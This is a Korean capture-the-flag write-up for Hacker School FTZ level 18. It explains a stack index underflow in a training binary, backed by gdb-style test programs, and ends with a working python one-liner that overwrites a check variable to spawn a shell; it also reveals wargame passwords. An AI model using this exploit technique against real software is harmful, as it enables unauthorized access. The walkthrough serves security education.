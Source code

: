```yaml
---
layout: post
title: "Hacker School FTZ - Level 18"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level18/1.jpg" | relative_url }}' alt='relative'>  

## 1) level18/why did you do it 입력해 로그인  
 
``` c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/2.png" | relative_url }}' alt='relative'>  

코드를 살펴보면,  
1. count 변수는 string 배열의 인덱스 번호를 저장  
2. 변수가 스택에 쌓이는 순서는  

<img data-action="zoom" src='{{ "assets/ftz/level18/3.png" | relative_url }}' alt='relative'>  

3. check 변수에 0xdeadbeef 값을 넣어줘야 함  
4. 입력 방법으로는 string 배열에 표준입력으로 문자 한 개씩 입력 받음  

코드 내용을 분석한 결과 string 배열을 넘어서서 check 변수에 값을 대입해야 하는 걸로 보입니다.  
string\[count\] = x 코드는 string\[count\] 값이 가리키는 주소에 x 값을 입력하라는 의미입니다.  

그러면 string 배열의 BOF를 일으켜 x에는 0xdeadbeef 값을 넣어주고 string\[count\]는 check를 가리키도록 해야 합니다.  

## 2) string\[count\]가 check를 가리키는 방법  

<img data-action="zoom" src='{{ "assets/ftz/level18/4.png" | relative_url }}' alt='relative'>  

``` c
// test.c
#include <stdio.h>
int main() {
        int i;
        char var1 = 'b';
        char var[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        char var2 = 'a';
        char var3 = 'c';

        printf("*var = %c\n", *var);

        for (i=0; i<10; i++)
                printf("*var+%d = %c\n", i, *var+i);

        printf("var[-1] = %c\n", var[-1]);
        printf("var[10] = %c\n", var[10]);
        printf("var[-2] = %c\n", var[-2]);

        return 0;
}
```

위의 소스코드를 실행하면 어떤 값을 출력할까요?  

<img data-action="zoom" src='{{ "assets/ftz/level18/5.png" | relative_url }}' alt='relative'>  

var\[-1\]이 가리키는 주소에 들어있는 값을 출력하니 'a'가 출력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/6.png" | relative_url }}' alt='relative'>  

gdb로 test 실행파일을 살펴보니 아래 그림처럼 변수가 스택에 저장되어 있습니다.  

배열의 값이 스택에 쌓이는 순서는 스택의 낮은 주소부터 높은 주소로 순서대로 쌓이며,  
변수가 스택에 쌓이는 순서는 마지막에 선언된 변수부터 처음 선언된 변수 순서대로 쌓이는 것을 확인할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/7.png" | relative_url }}' alt='relative'>  

그래서 var\[-1\]은 \*var-1을 의미하여 var2 변수에 들어있는 값이 출력된 것 입니다.  

<hr>

앞서 살펴본 내용을 고려하면 string\[count\]가 check를 가리키기 위해선 count가 -1 값을 가지고 있으면 됩니다.  

count는 초기값이 0이므로 0x08을 입력하면 -1이 될 것입니다.  

## 3) 0x08 입력하여 0xdeadbeef 값 입력하기  

char 배열은 문자 하나를 읽기 위해 1 byte씩 주소를 이동합니다. (만약 int 배열이었으면 이와 같은 이유로 정수 하나를 읽기 위해 4 byte씩 주소를 이동합니다.)  
따라서 char 배열의 인덱스가 int 변수 하나에 값을 넣기 위해서는 4번의 주소 이동이 있어야 합니다.  

또한, 리틀 엔디안 형식으로 값을 넣어줘야 하기 때문에 0xdeadbeef를 한 바이트씩 잘라 '\xef', '\xbe', '\xad', '\xde' 순으로 넣어줘야 합니다.  

<img data-action="zoom" src='{{ "assets/ftz/level18/8.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
int main() {
        char tmp[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
        int atme;
        int count = -1;

        tmp[count-3] = 0xef;
        tmp[count-2] = 0xbe;
        tmp[count-1] = 0xad;
        tmp[count-0] = 0xde;

        if (atme == 0xdeadbeef)
                printf("good");

        return 0;
}
```

<img data-action="zoom" src='{{ "assets/ftz/level18/9.png" | relative_url }}' alt='relative'>  

tmp 문자열 배열보다 atme 정수형 변수가 스택에 먼저 쌓여 스택에서 더 낮은 주소에 위치하고 있습니다.  
따라서 tmp 문자열 배열의 인덱스가 스택의 더 낮은 주소를 가리키면 atme 변수를 가리킬 수 있습니다.  

또한, atme 정수형 변수는 4 byte이므로 문자열 배열인 tmp는 4 byte 뒤로 이동하여 1 byte씩 원하는 값을 입력해야 하고,  
리틀 엔디안 형식으로 값을 입력해야 하므로 입력하고자 하는 값을 한 바이트씩 잘라 뒤에서부터 입력해줍니다.  

그러면 위와 같이 atme 변수에 0xdeadbeef 값이 들어가 good 문자열을 출력하는 걸 볼 수 있습니다.  

## 4) attackme에 적용하기  

3번의 내용을 바로 attackme에 적용하면,  

``` bash
(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level18/10.png" | relative_url }}' alt='relative'>  

level19의 비밀번호를 획득할 수 있습니다.  